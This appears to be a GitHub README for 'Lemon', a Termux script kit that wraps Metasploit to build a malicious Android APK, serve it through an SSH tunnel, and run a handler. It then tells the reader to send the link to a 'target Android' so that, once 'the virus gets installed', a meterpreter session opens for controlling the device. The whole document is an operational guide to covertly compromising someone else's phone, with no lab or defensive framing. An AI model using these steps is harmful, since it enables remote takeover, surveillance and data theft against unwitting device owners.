 **Requirements :-**

1.Metasploit-Framework

2.git

**Installation :-**

1.Install git by typing "pkg install git"

2.Download Lemon by typing "git clone https://github.com/Lemon-Hacking/Lemon

3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

**How to use :-**

1.Run php by typing "sh php"

2.Run ssh by typing "sh ssh" and copy the link you get.   [NEW SESSION]

3.Forward TCP connections by typing "sh payload", choose a port of your own and the payload's name, it will take a little time to create and upload the payload with the specified port and name.

4.Type "sh Handler" and wait for the Handler to start, then type "set LPORT xxxx" Put your port instead of xxxx, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds.
  Type "?" and press enter. Now you can mess with the Android device using the commnands listed.
